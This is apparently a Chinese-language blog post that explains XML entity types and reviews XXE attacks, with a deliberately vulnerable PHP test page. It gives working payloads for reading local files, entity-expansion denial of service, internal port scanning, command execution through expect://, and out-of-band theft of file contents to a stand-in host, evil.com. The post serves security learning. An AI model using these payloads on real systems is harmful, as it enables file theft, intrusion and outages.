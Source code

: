 ```yaml
---
layout: post
title: "XML实体攻击回顾"
tags: [security,web]
---
```



XML实体攻击已经是一个很老的技术了，这里仅对学习的过程做一个记录。

{% highlight php %}
<form method="POST" action="">
	<textarea name="keyword" value="" style="width: 500px; height: 300px"></textarea>
	<input type="submit" value="submit">
</form>

<?php
$keyword = $_POST['keyword'];
$xml_obj = simplexml_load_string($keyword);
var_dump($xml_obj);
{% endhighlight %}

上面这段代码用于XXE实体攻击的练习，你可以将其保存至你的环境下用于测试。（记得删除 :P）

XML讲解可以参考w3schools的教程-[XML](http://www.w3schools.com/xml/)。

这里简单说一下XML中的实体类型，大致有下面几种：

* 字符实体
* 命名实体
* 外部实体
* 参数实体

除参数实体外，其它实体都以字符（&）开始，以字符（;）结束。常规实体有：`&apos;（'）`、`&amp;（&）`、`&quot;（"）`、`&lt;（<）`、`&gt;（>）`。

**字符实体**类似html中的实体编码，形如：`&#97;（十进制）`或者`&#x61;（十六进制）`。

**命名实体**可以说成是变量声明，命名实体只能声明在DTD或者XML文件开始部分（<!DOCTYPE>语句中）。如下面代码所示：

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x "First Param!">
        <!ENTITY y "Second Param!">
    ]>
    <root><x>&x;</x><y>&y;</y></root>

**外部实体**用于加载外部文件的内容。（XXE攻击主要利用此实体）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPe root [
        <!ENTITY outfile SYSTEM "outfile.xml">
    ]>
    <root><outfile>&outfile;</outfile></root>

**参数实体**用于DTD和文档的内部子集中。与一般实体相比它以字符（%）开始，以字符（;）结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。（XXE攻击常结合利用参数实体进行数据回显）

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % param1 "Hello">
        <!ENTITY % param2 " ">
        <!ENTITY % param3 "World">
        <!ENTITY dtd SYSTEM "combine.dtd">
        %dtd;
    ]>
    <root><foo>&content</foo></root>
    
combine.dtd中的内容为：

    <!ENTITY content "%param1;%param2;%param3;">
    
上面combine.dtd中定义了一个基本实体，引用了3个参数实体：

    %param1;，%param2;，%param3;。

解析后`<foo>...</foo>`中的内容为`Hello World`。

XML实体攻击主要利用了XML实体中的外部实体结合各种协议来读取服务器上的数据，在DTD文件中的参数实体声明时能够引用其他参数实体的值，因此在XXE攻击回显遇到困难时会用到。

### * 简单文件读取

因为可以进行外部实体加载，在XXE攻击中常用来进行本地文件读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "file://localhost/c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
![img]({{ site.url }}/public/img/article/2015-06-08-xml-entity-attack-review/file_read.jpeg)

在使用`file://`协议时，有以下几种格式：

    * Linux
    file:///etc/passwd
    
    * Windows
    file:///c:/windows/win.ini
    file://localhost/c:/windows/win.ini
    （下面这两种在某些浏览器里是支持的）
    file:///c|windows/win.ini
    file://localhost/c|windows/win.ini
    
除了使用`file://`协议进行文件读取外，如果XML文档是用PHP进行解析的，那么还可以使用`php://filter`协议来进行读取。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "php://filter/resource=c:/windows/win.ini">
    ]>
    <root><foo>&content;</foo></root>
    
### * DoS攻击

因为解析器会解析文档中的所有实体，因此如果实体声明层层嵌套的话，在一定数量上可以对服务器器造成DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY x1 "CPU Consuming Task!">
        <!ENTITY x2 "&x1;&x1;">
        <!ENTITY x3 "&x2;&x2;&x2;">
        ...
        <!ENTITY x100 "&x99;&x99;&x99;...">
    ]>
    <root><foo>&x100;</foo></root>

嵌套实体声明曾指数增长，可能造成对服务器的DoS。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY dos SYSTEM "/dev/zero">
    ]>
    <root></root>
    
加载一个不稳定的文件描述也可能产生DoS。

### * 端口扫描

加载外部DTD时有两种加载方式，一种为私有`private`，第二种为公告`public`。

私有类型DTD加载：

    <!ENTITY private_dtd SYSTEM "DTD_location">
    
公共类型DTD加载：

    <!ENTITY public_dtd PUBLIC "DTD_name" "DTD_location">
    
在公共类型DTD加载的时候，首先会使用`DTD_name`来检索，如果无法找到，则通过`DTD_location`来寻找此公共DTD。利用`DTD_location`，在一定的环境下可以用来做内网探测。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY portscan SYSTEM "http://localhost:3389">
    ]>
    <root><foo>&portscan;</foo></root>
    
因解析器种类不同，所以针对XXE攻击进行端口扫描需要一个合适的环境才能够实现，例如：有明显的连接错误信息。

### * 利用DTD进行数据回显

当利用XXE攻击进行文件读取时经常因为没有回显而显得鸡肋，这个时候就可以结合参数实体的特殊性，加载一个外部DTD来进行回显。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/windows/win.ini">
        <!ENTITY % dtd SYSTEM "http://192.168.1.100:8000/evil.dtd">
        %dtd;
        %send;
    ]>
    <root></root>
    
其中`evil.dtd`的内容如下：

    <!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://evil.com/?content=%file;'>">
    %payload;
    
在DTD文件中声明了参数实体`payload`，其值是一个实体参数声明，因为是在DTD里面，所以可以引用上文的`%file;`参数实体，`%file;`参数实体为`c:/windows/win.ini`文本的内容。最后在原XML里引用DTD中的参数实体，此时就可以讲本地文件读取的内容通过HTTP发送出去（为了让请求的URL有效，这里对使用了`php://filter`协议，并将内容使用base64进行了编码）。

![img]({{ site.url }}/public/img/article/2015-06-08-xml-entity-attack-review/redirect_file.jpeg)

此方法针对数据不回显的情况及其有用。

### * 远程命令执行

当然了，除了文件读取和DoS外，某些情况下还能进行RCE。例如在PHP开启了PECL上的Expect扩展时，就能使用`expect://`协议来执行命令。

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE root [
        <!ENTITY content SYSTEM "expect://dir .">
    ]>
    <root><foo>&content;</foo></root>
    
利用XXE攻击时需要结合实际环境才能发挥出其威力。:D

### 参考

* [http://www.ibm.com/developerworks/cn/xml/x-entities/](http://www.ibm.com/developerworks/cn/xml/x-entities/)
* [https://www.youtube.com/watch?v=eHSNT8vWLfc](https://www.youtube.com/watch?v=eHSNT8vWLfc)
* [http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx](http://blogs.msdn.com/b/ie/archive/2006/12/06/file-uris-in-windows.aspx)
* [http://en.wikipedia.org/wiki/File_URI_scheme](http://en.wikipedia.org/wiki/File_URI_scheme)

